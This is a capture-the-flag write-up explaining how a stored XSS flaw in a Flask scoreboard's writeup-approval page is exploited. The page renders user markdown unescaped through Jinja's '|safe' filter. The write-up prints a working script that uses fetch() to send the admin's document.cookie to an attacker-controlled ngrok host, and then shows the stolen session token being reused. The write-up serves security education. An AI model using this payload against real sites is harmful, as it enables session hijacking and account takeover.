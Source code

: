 # marvin_scoreboard

> I had a lot of plans for winter break, but I ended up spending a lot of time playing with ChatGPT instead. I thought I was going to have more time to spend on writing this awesome marvin challenge, but I started running out of time towards the end of winter break... But then I realized I could just use ChatGPT to write the challenge for me! ChatGPT obliged, with a brand new writeup approval page for coaches to use! Now you can submit a writeup and get it approved much more quickly due to the amazing new writeup approval page on the scoreboard. ChatGPT isn't known to be the most security-focused web developer though... Can you login as the administrator and get the flag?
>
> Note 1: You can access the flag here, once you're logged in: http://scoreboard.ctf-league.osusec.org/flag
>
> Note 2: The admin will visit your site automatically after you submit a writeup using the $writeup command in a DM to marvin.

## Solution

Upon going to the provided URL, we're redirected to a login page which we presumably have to bypass to get the flag:

<div align="center">
<img src="img/login.png" alt="OSUSEC CTF League writeup review login page">
</div>

Huh that's a pretty old copyright, maybe it doesn't apply anymore :)
Jokes aside though, we can infer from the challenge description that submitting a writeup will be useful in obtaining the admin login token; maybe we can look through [the code we're given?](./provided/marvin_scoreboard.tar.gz)

```shell
# extract the provided tarball
$ tar -xzf marvin_scoreboard.tar.gz
# check for number of occurences of the string "writeup"
$ grep -r writeup marvin_scoreboard_release/ | wc -l
55
```

That's a lot of mentions to sift through, and more than I can show here :)
Here's one that looked interesting though (from the full `grep` output):

```shell
$ grep -r writeup marvin_scoreboard_release/
# --snip--
marvin_scoreboard_release/templates/approve_writeup_detail.html:    {{ writeup_html|safe }}
# --snip--
```

I wonder what safe does? [Stack Overflow](https://stackoverflow.com/a/48975437) provides a nice answer:

> With `| safe` Jinja2 will print symbols as they are in your variable, that means that it won't translate "dangerous" symbols into html entities (that Jinja2 does by default to escape "dangerous" ones). Use this option if you trust variable's content because in opposite case there can be vulnerabilities **for example XSS.** [emphasis mine]

Hmm, very interesting. It'd be a shame if someone was able to use XSS for nefarious purposes :)

Let's take a look at where this template is rendered for more context:

```python
# lines 303-320 of app.py
@app.route('/approve_writeup/<writeup_id>')
def approve_writeup_details(writeup_id):
    if check_auth(request):
        db_con = db.begin_sql_connection()
        writeup = db.sql_fetchone(db_con, "SELECT nickname, name, text FROM writeups INNER JOIN users ON discord_id=user_id INNER JOIN challenges on challenges.chal_id=writeups.chal_id WHERE writeup_id=%s", val=(writeup_id,))
        db.end_sql_connection(db_con)
        nickname, name, writeup_text = writeup
        # Check if the writeup contents are a link or markdown
        if writeup_text.startswith("http"):
            # If it's a link, generate html for an iframe preview
            writeup_html = f'<iframe src="{writeup_text}" width="100%" height="500"></iframe>'
        else:
            # If it's markdown, convert it to html
            print(repr(writeup_text))
            writeup_html = markdown.markdown(writeup_text, extensions=['fenced_code', 'codehilite', 'nl2br'])
        return render_template("approve_writeup_detail.html", username=nickname, challenge_name=name, writeup_html=writeup_html, writeup_id=writeup_id)
    # the user is not authenticated
    return redirect(url_for('login'))
```

So either an iframe is generated for the provided link, or the writeup is treated like Markdown and rendered to HTML which is then interpolated unescaped into the preview template, got it.
I see why using the `| safe` filter on user input may be a bad idea now :)
It's good for us though since now we can run arbitrary JavaScript in the admin's browser!
Aside from allowing us to generally wreak havoc, this will also help us log in to the necessary account to get access to the flag.

Taking a look at how logging in to the writeup review website works:

```python
# app.py lines 256-20 (some code omitted)
def check_auth(request):
    if 'token' in request.cookies:
        # look up the token in the database
        token = request.cookies['token']
        username = get_username_from_token(token)
        if username:
            return True
    return False

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        # --snip--
            if exp and exp < datetime.now():
                # create a new secure token
                token = str(uuid.uuid4())
            # store the token in the database and update expiration
            save_token(token, username)
            # set the cookie to the token value
            response = make_response(redirect(url_for('approve_writeup')))
            response.set_cookie('token', token)
            return response
        # --snip some more--
```

This means that authentication is done through the `token` cookie which contains a random version 4 UUID.
Why is knowing that useful?
Well, we can combine that knowledge with being able to submit arbitrary HTML (and therefore JavaScript) and doing a little XSS (cross-site scripting) to get the admin user's `token` cookie to be able to authenticate :)

Given that JavaScript was designed for the web, it should be no surprise that you can access a website's cookies in it via [`document.cookie`](https://developer.mozilla.org/en-US/docs/web/api/document/cookie).
That knowledge doesn't do us much good though if we're unable to obtain that value though, so we'll have to utilize some other method to do so.
Again, since JavaScript was designed with the web in mind it has the [`fetch()`](https://developer.mozilla.org/en-US/docs/Web/API/fetch) function conveniently available for our use.
We can combine these two things in order to obtain the value of the admin's `token` cookie by sending an HTTP request incorporating the admin's `document.cookie` value to a server we control.

I ended up just using [ngrok](https://ngrok.com/) to quickly make my laptop accessible to the internet, but you could also use other websites like [https://beeceptor.com/](Beeceptor), for example. ngrok is nice though since you only have to run one command:

```shell
$ ngrok http 8000
```

The port doesn't really matter, I just chose 8000 out of habit :)
Running this command should give you a bunch of output, including a link to a web interface and the URL we're exposed to the internet by, which should look something like https://68d2-128-193-154-149.ngrok.io.

Now that we have that up and running, we need to write some JavaScript that sends us the admin's `token` cookie using the fetch API I mentioned earlier. I ended up using the following (albeit compressed into one line):

```javascript
<script>
  fetch("https://68d2-128-193-154-149.ngrok.io/" + document.cookie).then(function(a) {
    console.log("haha");
  }).catch(function(a) {
    console.error("ono");
  });
</script>
```

Because the `fetch()` function returns a [`Promise`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise), you have to handle the response to the HTTP request and any errors that might come up, which is what the `.then()` and `.catch()` method calls are for (at least I think, I don't really know much JavaScript :)).
This essentially sends a GET request to our ngrok server with the path being the `document.cookie` value in the admin's browser, which should include their `token` cookie that we can use to log in.

After submitting that as a writeup to a random challenge and waiting a bit, we get the request we wanted:

<div align="center">
<img src="img/ngrok-request.png" alt="ngrok dashboard with admin token in GET request">
</div>

So there's our admin token! `c0d9ef74-358d-4eca-ad32-0881a1245df0` (ignore the bad gateway errors haha).
We can then set the `token` cookie through your browser of choice's developer tools (making sure to set the path of the cookie to `/`), and we can finally get the flag by navigating to [the provided url](http://scoreboard.ctf-league.osusec.org/flag): `osu{Ch4T9pt_15_th3_b35t_53cUR1TY_54b0t491N9_50LuT10n15t}`.
If you take one thing away from this it should be to think twice before using ChatGPT to write secure code :)
